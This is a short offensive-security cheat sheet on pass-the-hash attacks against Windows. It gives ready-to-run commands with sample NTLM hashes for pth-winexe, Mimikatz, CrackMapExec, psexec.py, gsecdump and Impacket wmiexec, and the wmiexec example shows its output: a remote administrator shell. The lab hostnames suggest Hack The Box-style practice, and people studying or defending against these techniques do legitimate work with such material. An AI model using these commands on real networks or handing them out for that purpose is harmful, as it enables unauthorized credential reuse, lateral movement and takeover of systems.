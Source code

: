 ```yaml
---
description: >-
  Pass the hash is a hacking technique that allows an attacker to authenticate
  to a remote server or service by using the underlying NTLM or LanMan hash of a
  user's password.
---
```


# Pass-The-Hash

It replaces the need for stealing the plaintext password with merely stealing the hash and using that to authenticate with.

## pth-winexec

Part of the pth-toolkit \([https://github.com/byt3bl33d3r/pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)\), buildin in kali

Example:

```text
pth-winexe --user=pc.local/Administrator%aad3b435b51404eeaad3b435b514t234e:1321ae011e02ab0k26e4edc5012deac8 //10.1.1.1 cmd
```

## Mimikatz

Pass-the-hash using mimikatz:

`Invoke-Mimikatz -Command '"sekurlsa::pth /user:user /domain:domain /ntlm:hash /run:command"`

After running this command a new cmd shell will be opened with the new logon session \(can be seen by running `klist`\), we can interact with the new shell by running:

`Invoke-Command -ComputerName dc.eth.lab -ScriptBlock{whoami}`

It replaces the need for stealing the plaintext password with merely stealing the hash and using that to authenticate with.

## Crackmapexec

`cme smb 192.168.0.1/24 -u Admin -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949`

## psexec

part of Microsoft’s Sysinternals tools for windows or a standalone script in kali

`psexec.py active.htb/administrator@10.10.10.100`

## gsecdump

Gsecdump has no DLL dependency making it very easy to use on remote systems with psexec. If it for some reason can't do what it is supposed to, try running it as SYSTEM and you should get your info. 

Example: 

`C:\Documents and Settings\nobody\Desktop>gsecdump -u MSHOME\XPSP1VM$::aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::` 

## Impacket

```text
root@kali:/opt/impacket# wmiexec.py -hashes :f6b7160bfc91823792e0ac3a162c9267 administrator@10.10.10.103 
Impacket v0.9.19-dev - Copyright 2018 SecureAuth Corporation 

[*] SMBv3.0 dialect used 
[!] Launching semi-interactive shell - Careful what you execute 
[!] Press help for extra shell commands 
C:\>whoami 
htb\administrator 
```

